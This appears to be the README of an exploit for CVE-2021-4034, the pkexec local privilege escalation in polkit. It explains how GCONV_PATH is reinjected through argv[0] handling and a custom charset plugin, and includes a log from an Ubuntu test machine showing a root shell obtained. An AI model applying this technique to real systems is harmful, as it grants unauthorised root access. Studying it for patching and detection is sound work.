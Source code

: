 CVE: CVE-2021-4034
Short description: Local Privilege Escalation in polkit’s pkexec


This exploit targets a setuid binary /usr/bin/pkexec, installed ubiquitously on linux systems. It leverages a few things:

1. insufficient check of argv[0] in pkexec. This allows to overwrite the environment variables.
2. Some environment variables like GCONV_PATH are privileged. If you can set them you can control a binary by executing arbitrary code. These special environment variables are stripped from setuid binaries for that reason. However, with the pkexec vulnerability we can undo the stripping and readd back a special environment variable.
3. GCONV_PATH variable allows to speciy a custom plugin to convert between charsets. 
4. Each time g_printerr() function prints an message, a conversion is triggered using my custom conversion plugin.
5. Triggering g_printerr() is simple: we pass in a nonexistent SHELL environment variable.


Log from my ubuntu test machine:

$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 18.04.4 LTS
Release:	18.04
Codename:	bionic
ubuntu@instance-20200619-1458:~/test/CVE-2021-4034$


$ ./main
Get effective uid: : 0
Setting real effective user id to 0... it returned: 0
bash: groups: command not found
Command 'lesspipe' is available in the following places
 * /bin/lesspipe
 * /usr/bin/lesspipe
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
lesspipe: command not found
Command 'dircolors' is available in '/usr/bin/dircolors'
The command could not be located because '/usr/bin' is not included in the PATH environment variable.
dircolors: command not found
# /usr/bin/id
uid=0(root) gid=1001(ubuntu) groups=1001(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(lxd),114(netdev)
#
